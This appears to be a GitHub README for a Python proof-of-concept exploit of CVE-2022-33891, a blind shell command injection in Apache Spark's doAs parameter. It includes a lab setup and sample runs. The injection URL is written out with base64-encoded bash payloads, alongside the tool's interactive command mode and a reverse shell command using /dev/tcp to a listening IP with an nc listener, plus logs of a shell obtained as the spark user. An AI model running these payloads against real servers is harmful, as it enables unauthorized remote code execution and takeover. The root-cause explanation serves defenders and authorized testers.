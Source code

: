 # CVE-2022-33891
Apache Spark Shell Command Injection Vulnerability

A Python POC for exploiting the Apache Spark Shell Command Injection vulnerability. I saw some other POCs out there but they looked mega sus. This one is clean and simple.

I did not discover this exploit/vulnerability. I just wanted to make a safe POC for the community ^.^

CVE originally discovered by Kostya Kortchinsky from Databricks.

Update 9/7/22: Ayo there's a Metasploit module for this now! Made by [h00die-gr3y](https://github.com/h00die-gr3y) and is now [merged!](https://github.com/rapid7/metasploit-framework/pull/16944)

## Affected Versions
Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

## Vulnerable component
```
http://localhost:8080/?doAs=`[command injection here]`
```
Example
```
http://localhost:8080/?doAs=`echo%20%22c2xlZXAgMTAK%22%20|%20base64%20-d%20|%20bash`
```
... sleeps for 10 seconds


## Setup
You need a vulnerable version of Spark that has a single config option changed.

- Install the dependencies: `$ pip3 install -r requirements.txt`
- Change directories into the `spark/` directory.
- Use the provided `docker-compose.yml` in the `spark/` directory and run `docker-compose up`. Let the container spin up.
- In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
- In the container bash session, enter: `echo "spark.acls.enable       true" >> conf/spark-defaults.conf`
- Optionally, cat the contents of spark-defaults.conf to make sure it looks good.
- Exit the interactice bash shell and Ctl-C your docker-compose process.
- Once the containers have powered down gracefully, rerun `docker-compose up`


## Usage
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 poc.py -h
usage: poc.py [-h] -u URL -p PORT [--revshell]
              [-lh LISTENINGHOST] [-lp LISTENINGPORT]
              [--check] [--verbose]

CVE-2022-33891 Python POC Exploit Script

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to exploit.
  -p PORT, --port PORT  Exploit target's port.
  --revshell            Reverse Shell option.
  -lh LISTENINGHOST, --listeninghost LISTENINGHOST
                        Your listening host IP address.
  -lp LISTENINGPORT, --listeningport LISTENINGPORT
                        Your listening host port.
  --check               Checks if the target is
                        exploitable with a sleep test
  --verbose             Verbose mode

```

## Examples

Check to see if the target is vulnerable:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --check --verbose
[*] Attempting to connect to site...
[*] URL request: http://localhost:8080/?doAs='testing'
[*] Response status code: 403
[!] Performing sleep test of 10 seconds...
[*] T1: 2022-07-22 10:47:48.406996
[*] Command is: sleep 10
[*] Base64 command is: c2xlZXAgMTA=
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgMTA= | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[*] T2: 2022-07-22 10:47:58.425108
[*] Delta T: 10
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Issue commands in a command prompt loop:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --verbose
[*] "Interactive" mode!
[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.
[cve-2022-33891> sleep 5
[*] Command is: sleep 5
[*] Base64 command is: c2xlZXAgNQ==
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgNQ== | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[cve-2022-33891> 
```

Execute a reverse shell:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --revshell -lh 10.10.1.237 -lp 9001 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 9001
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/10.10.1.237/9001 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx | base64 -d | bash`
[*] Sending exploit...

...[in the other terminal]...

husky@dev-kde:~/Desktop/cve-2022-33891$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 172.19.0.2 52136
sh: 0: can't access tty; job control turned off
$ whoami
spark
$ echo "hackerman"
hackerman
$ 
```

## More Info
The command injection occurs because Spark checks the group membership of the user passed in the `?doAs` parameter by using a raw Linux command. Bash interpolation runs the command, sends the output to the `id` field, and attempts to look up the resulting user.

Passing in `which python` as the value of `?doAs=` user produces this result in the traceback:
```
...
http://localhost:8080/?doAs=`which%20python`
...

spark_1  | 22/07/22 15:15:57 INFO Utils: id: '/opt/bitnami/python/bin/python': no such user
spark_1  | 22/07/22 15:15:57 ERROR Utils: Process List(bash, -c, id -Gn `which python`) exited with code 1: 
spark_1  | 22/07/22 15:15:57 ERROR Utils: Error getting groups for user=`which python`
```
Here, Java has decided it would be best to pass in the `id` command into `bash -c` to check the group membership for a specified user. Problem is, that also allows command injection. Bash interpolation has evaluated the given command and printed the results on line 1 of this output and tries to look up the user by the stdout of the command.

There's no user named `/opt/bitnami/python/bin/python` but that sure as hell means the command was passed to Bash and executed.

Patched versions parametrize this call to have a full path to the `/bin/id` command instead of to `bash -c id`.

It's worth noting that there is nothing reflected back on the page during command execution, so this is blind OS injection. Your commands run, but there will be no indication if they worked or not or even if the program you're running is on the target. For example, the container that is spun up with the `docker-compose.yml` file in this repo does not have ping, so checking for command injection via a pingback will not work. But you won't know that's the case so you'll be left wondering if it worked or not.

The sleep test is a safe bet ^.^

## OPSEC

I spent precisely zero cycles making this OPSEC safe. Red teamers, that's on you.

## Disclaimer
This POC has no passive enumeration capability. The exploit is a blind command injection. If you use this script against a target, you are sending packets to it. Even if you use the `--check` parameter and the target is vulnerable, you are actively exploit it to prove that it's vulnerable.

Don't use this on production systems that are sensitive to testing. Do not use this against targets if you do not have authorization to do so. I'm not even close to liable for how you choose to use this.

Peep the license.

## References
- https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/
- https://nvd.nist.gov/vuln/detail/CVE-2022-33891
- https://spark.apache.org/docs/2.1.0/configuration.html
- https://github.com/W01fh4cker/cve-2022-33891 (I do not recommend using this POC)

